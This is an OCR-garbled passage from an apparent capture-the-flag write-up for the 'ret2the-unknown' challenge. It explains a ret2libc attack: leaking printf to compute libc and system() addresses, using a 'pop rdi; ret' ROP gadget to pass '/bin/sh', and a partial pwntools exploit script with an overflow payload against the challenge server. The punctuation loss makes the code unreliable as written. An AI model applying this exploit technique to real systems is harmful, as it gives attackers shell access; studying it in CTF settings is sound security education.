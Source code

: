 The exact address of system   could be calculated due to the known offset of this function being 0x449c0  which is 0x7fe5b91ec150   0x7fe5b91a7790   Note that this works because PIE is disabled 

     Building system   bin sh  

After discovering the addresses of the system   function and  bin sh string  it follows that the system   bin sh   call must be built and executed using the aforementioned addresses  To do so  it is important to be able to control the RDI register which is used to pass parameters into functions  The RDI  RSI  RDX  and RCX registers are all used for that purpose  but they function via a hierarchical basis  in which the parameter passed into a function follows that particular order  3    ftnt3  

some function parameter1 parameter2 parameter3 parameter4 

parameter1 corresponds to RDI  parameter2 corresponds to RSI  and so on 

Therefore  to pass  bin sh to system    it is important to pop the RDI register and pass in the desired parameter value  Using the ROPgadget   binary ret2the unknown command  ROP gadgets that perform the desired pop operation can be found with their respective locations in memory 

0x00000000004012a3   pop rdi   ret

Exploit
       

Using this gadget  the system   call will contain  bin sh as its argument  and a shell will be returned 

   highlight python   
from pwn import    
  
REMOTE   True  
  
if REMOTE   
   p   remote  mc ax  31568   
else    p   process    ret2the unknown    
  
rip offset   40  
main   0x0000000000401186  
   endhighlight     
  
  Wave 1  
  
   highlight bash   
   Repeat main function  
payload   b A  40   p64 main   
p recvuntil b safely     
p sendline payload   
  
  Retrieve printf address  
p recvuntil b there      
printf address   p recvuntil b luck    split b n   0  decode      
  
   Wave 2  
  
  Get base libc address  
libc   ELF  libc 2 28 so    checksec   False   
  
print libc symbols  system     
libc address   int printf address 16    libc symbols  printf    
  